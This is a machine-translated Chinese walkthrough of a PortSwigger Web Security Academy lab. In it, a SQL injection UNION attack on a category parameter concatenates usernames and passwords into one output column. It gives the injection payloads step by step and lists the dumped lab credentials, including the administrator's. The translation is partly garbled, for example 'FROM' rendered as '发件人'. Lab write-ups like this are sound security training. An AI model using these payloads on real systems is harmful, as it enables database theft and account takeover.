






# ports wigger Web Security Academy Lab:SQL 注入联合攻击，在一列中检索多个值

> 原文：<https://infosecwriteups.com/portswigger-web-security-academy-lab-sql-injection-union-attack-retrieving-multiple-values-in-a-3f025ac94b67?source=collection_archive---------1----------------------->

在本文中，只有一列被处理为页面上的输出。作为输出，将确定屏幕上打印的列，用户名和密码将打印在相关列中。

我们记得在以前的实验中，类别参数中有 SQL 注入。

我们已经确定有如下两列。

有效负载:'+UNION+SELECT+NULL，NULL —

让我们把 cyber 这个词印在第二栏。

有效负载:'+UNION+SELECT+NULL，' siber' —

因为我们希望在屏幕上第二列中写入的表达式是用户名和密码，所以我们可以使用以下有效负载:

+UNION+SELECT+NULL，用户名| | ' ~ ' | |密码+发件人+用户—

信用:

维纳~qi6rwofv0ux0yjcecm2y

卡洛斯~lmnncl5uq0hqqdqb92do

管理员~j221x00uaz0e8rdflvmh

我们使用管理员用户的凭证登录系统。

登录系统后，我们成功完成了实验。

来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*